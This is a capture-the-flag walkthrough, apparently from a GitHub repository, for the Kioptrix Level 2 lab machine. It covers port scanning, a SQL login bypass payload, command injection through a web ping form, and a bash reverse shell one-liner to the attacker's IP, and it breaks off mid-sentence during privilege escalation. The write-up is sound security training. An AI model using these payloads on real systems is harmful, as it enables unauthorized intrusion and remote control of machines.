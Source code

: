 # Kioptrix Level 2 walk-through

### Initial portscan
----
- I always start with an initial port scan to see what ports are open.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/nmap_scan.png)

- ipp (internet printing protocol) port 631 was open, with version CUPS 1.1. I quickly searched with searchsploit and tried a quick python exploit but couldnt get it to work. There wasnt a lot of exploits available for that version so i decdided to move onto a more juicier port like 80.
--------
- Looking at the webserver on port 80, i tend to browse the website first, usually before or while i directory bruteforce. 
- At the main page it had a login form, so i had a feeling it was going to be a sql injection attack to gain remote access to the machine.
- Tried out a simple SQL auth bypass before i started diving into a more complicated SQL. Injection i tried `' OR 1=1 -- -` inside the username field, and password can be anything.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/Screenshot_2022-02-10_21-35-37.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/SQL.png)

- Now theres a user input field and it says we can ping a machine on a network. So ill try to ping my attacker machine that im using.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping-screen.png)
- Looks like we can ping our own machine   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping_test.png)

- So it looks like its using the OS ping command, which we can try to command stack using   `;  &&  ||`  to get a reverse shell
- Testing command stacking with the command `; id`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/id_test.png)
----------
- lets try a reverse shell using bash. `; bash -i >& /dev/tcp/10.0.2.6/443 0>&1`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_code.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_rev_shell.png)

- wooo! success we have a shell on the machine! we are apache user with low privileges so lets try to get root.
- from the previous image, we can see the kernal is 2.6.9-55. I usually like to look at the privileges the user has and what kernal version is running once i get access to the machine.
- I used searchsploit to search "kernel 2.6"....and there was a ton of exploits that poped up. I decided to see if i can find the OS to help me narrow it down.


- `uname -a` was not much help, so i looked at 

